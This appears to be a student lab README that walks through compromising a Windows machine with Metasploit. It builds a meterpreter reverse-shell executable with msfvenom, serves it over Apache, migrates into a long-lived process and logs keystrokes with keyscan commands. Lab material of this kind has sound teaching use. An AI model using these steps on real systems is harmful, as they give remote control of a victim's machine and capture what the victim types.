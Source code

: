 # Compromising-windows-using-Metasploit
Compromising windows using Metasploit
# Metasploit
Compromising windows using Metasploit

# AIM:

To Compromise windows using Metasploit .

## DESIGN STEPS:

### Step 1:

Install kali linux either in partition or virtual box or in live mode

### Step 2:

Investigate on the various categories of tools as follows:

### Step 3:

Open terminal and try execute some kali linux commands

### PROGRAM:
Find the attackers ip address using ifconfig
#### OUTPUT:
![image](https://github.com/user-attachments/assets/9f114080-577e-4c4d-89a5-c8e1aee90f9b)


Create a malicious executable file fun.exe using msenom command
msfvenom -p windows/meterpreter/reverse_tcp LHOST=192.168.1.2 -f exe > fun.exe
#### OUTPUT

![image](https://github.com/user-attachments/assets/a0433240-4454-4e40-9bea-151b21c11e14)


copy the fun.exe into the apache /var/www/html folder


![image](https://github.com/user-attachments/assets/4568276e-b714-4120-8f87-bc8a8e5af006)


Start apache server
sudo systemctl apache2 start

![image](https://github.com/user-attachments/assets/2bec5ee3-c7da-46dd-850d-78b9b1a2b5f8)



Check the status of apache2

![image](https://github.com/user-attachments/assets/ec9a2d75-8aa7-4d07-9398-cfc1d257eb33)


Invoke msfconsole:
## OUTPUT:
Type help or a question mark "?" to see the list of all available commands you can use inside msfconsole.
![image](https://github.com/user-attachments/assets/95bcd6da-385e-433e-a4f5-e35cdd9101fc)


Starting a command and control Server
use multi/handler
![image](https://github.com/user-attachments/assets/f0ff5564-496c-450a-8808-2db975e874a4)


set PAYLOAD windows/meterpreter/reverse_tcp
set LHOST 0.0.0.0
exploit


On the target Windows machine, open a Web browser and open this URL, replacing the IP address with the IP address of your Kali machine:
http://192.168.1.2/fun.exe
The file "fun.exe" downloads.
![6 7](https://github.com/user-attachments/assets/76927041-303e-4d38-a66e-8bd6e89d6563)


Bypass any warning boxes, double-click the file, and allow it to run.

On kali give the command exploit

![image](https://github.com/user-attachments/assets/049996e8-1ca7-41cb-a270-e2df3b357376)


To see a list of processes, at the meterpreter > prompt, execute this command:
ps  ⇒ can see the fun.exe process running with pid 1156
![image](https://github.com/user-attachments/assets/07d9f86d-ca95-427a-b005-9e6969354176)



The Metasploit shell is running inside the "fun.exe" process. If the user closes that process, or logs off, the connection will be lost.
To become more persistent, we'll migrate to a process that will last longer.
Let's migrate to the winlogon process.
At the meterpreter > prompt, execute this command:

migrate -N explorer.exe
at meterpreter > prompt, execute this command:
netstat
![6 10](https://github.com/user-attachments/assets/66442dd7-aedd-4c09-8d4c-4100ae0ac911)

A list of network connections appears, including one to a remote port of 4444, as highlighted in the image below.
Notice the "PID/Program name" value for this connection, which is redacted 


Post Exploitation
The target is now owned. Following are meterpreter commands for key capturing in the target machine
keyscan_start	Begins capturing keys typed in the target. On the Windows target, open Notepad and type in some text, such as your name.
![image](https://github.com/user-attachments/assets/f5776fc3-80cb-4ae1-8ba0-f8bf1cd4771a)

![6 14](https://github.com/user-attachments/assets/781f8912-c6e5-4a38-9f49-da7c39338628)


keyscan_dump	Shows the keystrokes captured so far


![image](https://github.com/user-attachments/assets/1ca75d17-301e-4c88-9082-6bfcfab05318)




## RESULT:
The Metasploit framework for reconnaissance is  examined successfully
